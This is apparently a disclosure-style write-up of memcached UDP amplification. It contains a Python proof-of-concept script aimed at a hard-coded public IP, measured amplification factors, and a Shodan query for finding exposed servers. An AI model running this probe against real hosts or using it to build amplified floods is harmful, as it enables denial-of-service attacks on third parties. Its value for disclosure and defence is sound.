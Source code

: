# payload
```
import socket
from loguru import logger
import sys
from time import sleep

logger.remove(handler_id=None)
level = "INFO"
logger.add(sink=sys.stdout, level=level)

host='47.104.221.142'
port=11211

def recv_all(sock):
    sock.settimeout(1)
    recv_data = b''
    data_len = 0
    while True:
        try:
            data = sock.recv(1024)
            if data == b'':
                break
            recv_data += data
            data_len += len(data)
        except Exception as e:
            break

    return recv_data, data_len

def handler(msg):

    recv_data = b''
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.sendto(msg, (host, port))
    msg_len = len(msg)
    
    data, data_len = recv_all(sock)

    logger.info(f'send_len: {msg_len} -> res_len: {data_len}')
    factor_l7 = data_len / msg_len
    logger.info(f"factor_l7: {factor_l7}")

    sock.close()

get_stats_128_60 = b'\x00\x00\x00\x00\x00\x01\x00\x00stats\r\n'

def main():
    msgs = get_stats_128_60
    handler(msgs)

if __name__ == '__main__':
    main()
```

# local test
Complite memcached version 1.6.29.

Run memcached with `./memcached -u root`

The service runs on UDP port 11211 by default.
![1](assests/1.png)

Sending requests to the service port using payload.py can result in an amplified response, with an amplification factor of about 103.
![2](assests/2.png)

# remote test

Using Shodan to search `port:11211 product:"Memcached"`, you can find approximately 16,850 available Memcached services.

![4](assests/4.png)

"Sending requests to the service port using `payload.py` can result in an amplified response, with an amplification factor of about 115.

![3](assests/3.png)

# fix suggest

It is recommended to implement necessary access control policies and rate limiting in Memcached to prevent its use in distributed amplification denial-of-service attacks.